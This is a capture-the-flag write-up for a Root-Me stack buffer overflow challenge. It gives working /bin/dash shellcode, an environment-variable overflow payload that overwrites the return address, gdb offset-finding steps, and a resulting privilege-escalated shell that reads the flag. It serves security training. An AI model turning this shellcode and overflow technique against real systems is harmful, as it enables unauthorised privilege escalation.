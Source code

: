 # ELF x86 - Stack buffer overflow basic 4

https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-4


Can make use of generic spawn /bin/dash shellcode and insert into start of env struct, home field.

    export HOME=$(python -c 'print "\xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41"')

    export PATH=$(/usr/bin/python -c 'print "\x41" * 160 + "\x3c\xf5\xff\xbf" + "\x70\xf7\xff\xbf"')


This exercise is fiddly due to environmental variables shifting stack offsets.  Place junk addresses into PATH to begin with and use gdb to find correct offsets.  Remember to remove the gdb additions to env.

    (gdb) unset env LINES
    (gdb) unset env COLUMNS


Address of home:

    (gdb) p/x $ebp-0x21c
    $1 = 0xbffff53c


Address of RET to main and env struct argument, string terminator will clear least significant byte of the argument causing havok.  Must pass two addresses to PATH, new shellcode address and original env arg address.

    (gdb) p/x ($1+0x180+0xa0)
    $2 = 0xbffff75c

    (gdb) x/2wx $2
    0xbffff75c:     0x08048679      0xbffff770


Satisfying:

    app-systeme-ch8@challenge02:/challenge/app-systeme/ch8$ ./ch8
    [+] Getting env...
    $ id
    uid=1108(app-systeme-ch8) gid=1108(app-systeme-ch8) euid=1208(app-systeme-ch8-cracked) groups=1208(app-systeme-ch8-cracked),100(users),1108(app-systeme-ch8)
    $ cat .passwd
    ...

